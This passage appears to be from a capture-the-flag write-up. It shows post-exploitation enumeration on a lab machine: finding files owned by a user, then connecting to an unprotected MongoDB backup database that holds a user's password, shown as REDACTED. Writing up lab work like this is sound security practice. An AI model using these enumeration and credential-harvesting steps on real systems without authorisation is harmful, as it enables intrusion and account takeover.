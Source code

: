 The admin password was the one I changed. I tried the phone number as a password, but that failed. There was nothing else of interest in the database. 

I looked for files that were owned by www-data and did not see anything I could use. I tried the same thing for webdeveloper. 

```bash
www-data@sky:/tmp$ find / -user webdeveloper 2>/dev/null        
/home/webdeveloper
/home/webdeveloper/.bashrc
/home/webdeveloper/.mysql_history
/home/webdeveloper/.local
/home/webdeveloper/.local/share
/home/webdeveloper/.sudo_as_admin_successful
/home/webdeveloper/.bash_logout
/home/webdeveloper/.cache
/home/webdeveloper/.bash_history
/home/webdeveloper/.profile
/home/webdeveloper/user.txt
/usr/bin/mongoimport
/usr/bin/mongostat
/usr/bin/mongofiles
/usr/bin/mongorestore
/usr/bin/mongodump
/usr/bin/bsondump
/usr/bin/mongotop
/usr/bin/mongoexport
/usr/share/doc/mongodb-database-tools
/usr/share/doc/mongodb-database-tools/README.md
/usr/share/doc/mongodb-database-tools/LICENSE.md
/usr/share/doc/mongodb-database-tools/THIRD-PARTY-NOTICES
```

There was a few files with mongo in their name. So I tried connecting to a mongo database. 

```bash
$ mongo

> show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB

> use admin
switched to db admin

> show collections;
system.version

> use backup
switched to db backup

> show collections;
collection
user

> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "REDACTED" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```
